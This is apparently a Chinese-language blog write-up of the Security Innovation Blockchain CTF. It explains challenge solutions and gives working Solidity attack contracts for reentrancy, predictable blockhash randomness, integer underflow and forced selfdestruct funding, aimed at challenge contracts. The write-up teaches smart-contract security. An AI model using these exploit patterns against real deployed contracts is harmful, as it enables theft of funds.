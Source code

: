 ```yaml
---
title: "[Writeups] Security Innovation Blockchain CTF"
date: 2019-06-07 00:00:00
categories:
- [security, writeups]
tags:
- ctf
- security
- writeups
- blockchain
---
```


## Donation

這題是簽到題  
就只是讓我們呼叫合約裡面的這個函式 `withdrawDonationsFromTheSuckersWhoFellForIt`  

## Lock Box

這題有個 `private` 的 `pin` 變數，但是 `private` 只是代表那個變數沒有 `getter` 函式，把合約的狀態抓下來就看光光啦  
使用 [`web3.eth.getStorageAt`](https://web3js.readthedocs.io/en/1.0/web3-eth.html#eth-getstorageat) 這個函式  
父合約的變數會在子合約的變數的前面  
所以 position 0 的位址是 `authorizedToPlay`，而 position 1 的位址就是 `pin`  
變數在 storage 裡面怎麼擺的可以參考這篇 [Understanding Ethereum Smart Contract Storage](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/)

## Piggy Bank

這題直接呼叫 `collectFunds` 就好了  
只有 `PiggyBank` 的 `collectFunds` 有 `onlyOwner`，`CharliesPiggyBank` 的 `collectFunds` 沒有 `onlyOwner`  

## SI Token Sale

這題的 `purchaseTokens` 沒有用 SafeMath，也沒有檢查 `_value` 要大於 `feeAmount`  
先轉個 `0.000001` 給合約，這樣 `0.000001 - 0.00001` 就會 underflow 變成很大的數字，就得到了超多的 token  
然後再用 `refundTokens` 就可以半價把 token 換成 ether 錢錢了

## Secure Bank

`SecureBank` 的 `withdraw` 和 `MembersBank` 的 `withdraw` 其中的 `_value` 參數形態不一樣  
他們會被看成是不一樣的函式，所以會有兩個不一樣的型態 `withdraw` 可以呼叫  
而 `MembersBank` 的 `withdraw` 沒有檢查是不是本人，所以就直接把 contract creator 的錢領走

## Lottery

這題要猜 `entropy^entropy2` 的值，猜到就可以拿走裡面的錢錢

`entropy = blockhash(block.number)`，但是我們沒辦法知道這個 block 的 blockhash，因為這個 block 還沒算完  
但這樣寫不會有錯誤，只是出來的值會是 `0`  
既然 `entropy = 0` 那就只剩 `entropy2`，而 `entropy2` 是根據 `msg.sender` 來的  
所以我們可以直接算出 `_seed` 的值  
可以直接用 [remix](https://remix.ethereum.org) 寫個簡單的 smart contract 幫我們算那個值，然後利用 `event` 來印出那個值 ( 當 print 用 )  

```solidity
pragma solidity ^0.5.9;

contract test {
    event Log(bytes32 value);
    
    function go () public {
        emit Log(keccak256(abi.encodePacked(msg.sender)));
    }
}
```

或是直接寫一個攻擊合約，去呼叫 `play` 函式  
記得要先把這個合約加到 `authorizedToPlay`，如果是 gas 不夠就調高 gas limit 吧

```solidity
pragma solidity ^0.5.9;

import "./challenge.sol";

contract hack {
    function exploit(address payable _target) public payable {
        Lottery target = Lottery(_target);

        bytes32 entropy2 = keccak256(abi.encodePacked(this));
        uint256 seeds = uint256(entropy2);

        target.play.value(msg.value)(seeds);

        msg.sender.transfer(address(this).balance);
    }
}
```

## Trust Fund

這題是經典的 reentrant attack  

```solidity
pragma solidity ^0.5.9;

contract TrustFund {
    function withdraw() external {}
}

contract hack {
    address target = 0xd297ab1c9653295BdE4f6b2e32574Ac5DD994997;
    uint count = 10;

    function () external payable {
        if (count > 0) {
            count--;
            TrustFund trust = TrustFund(target);
            trust.withdraw();
        }
    }

    function exploit () public {
        TrustFund trust = TrustFund(target);
        trust.withdraw();
    }
    
    function withdraw () public {
        msg.sender.transfer(address(this).balance);
    }
}
```

## Heads or Tails

這題跟 Lottery 很像，不過用的是上一個 block 的 blockhash  
那就寫個攻擊合約去呼叫 `play`，就可以算出一樣的 `entropy`  
給 `0.1 ether` 能賺 `0.05 ether`，所以玩個 20 次就把錢全部撈出來啦  
記得要寫 `fallback` 函式才能接錢進來呀 ( 我這裡卡超久der )

```solidity
pragma solidity ^0.5.9;

contract HeadsOrTails {
    function play(bool _heads) external payable {}
}

contract hack {
    address target = 0xf8583ccB9900615e0b8304A16539EBFD96c2B0af;

	function () external payable {}

    function exploit () public payable {
        bytes32 entropy = blockhash(block.number - 1);
        bool coinFlip = (entropy[0] & '\x01') == '\x01';

        HeadsOrTails heads = HeadsOrTails(target);

		for (uint i = 0; i < 20; i++) {
			heads.play.value(0.1 ether)(coinFlip);
		}

        msg.sender.transfer(address(this).balance);
    }
}
```

## Record Label

這題的題目很長，主要的邏輯就是你領錢的時候會被 `royalties` 抽成，`manager` 會抽成 80 趴的錢錢  
所以如果直接呼叫 `withdrawFundsAndPayRoyalties` 就可以拿到 `0.2 ether`，`royalties` 抽走 `0.8 ether`，這題就解掉了 ( 題目合約 `balance = 0` )  
不過正確的解法 ( 我全都要 ) 應該是找出 `_manager` 的地址，然後呼叫 `addRoyaltyReceiver` 把 `receiverToPercentOfProfit` 這個 mapping 中 `_manager` 的 percent 覆寫成 0  
這樣去領錢就不會被抽成了

## Slot Machine

這題的題目很短，就一個 `fallback` 函式  
但是第一行限制一次只能匯款 `1 szabo` ( `0.000001 ether` )  
目標是要讓這個合約的 balance 大於等於 `5 ether`，他就會把所有錢錢都給你  
其中一個不透過 `fallback` 給錢的方法就是用 `selfdestruct`  
`selfdestruct` 就是把合約清除掉，在被清除掉之前，這個合約可以把他的錢錢匯款給一個帳戶，而這個匯款的動作不會經過 `fallback` 函式  
寫一個攻擊合約，並給他 `5 ether`，讓他自我毀滅，並在毀滅之前把 `5 ether` 匯款給題目合約

```solidity
pragma solidity ^0.5.9;

contract hack {
    function exploit () public payable {
        selfdestruct(address(0x22f616f6b95e23efa8FBBAE44BeeC05890E12A4E));
    }
}
```

---

1. [https://f3real.github.io/tag/ethereum.html](https://f3real.github.io/tag/ethereum.html)
2. [https://xz.aliyun.com/t/2759](https://xz.aliyun.com/t/2759)
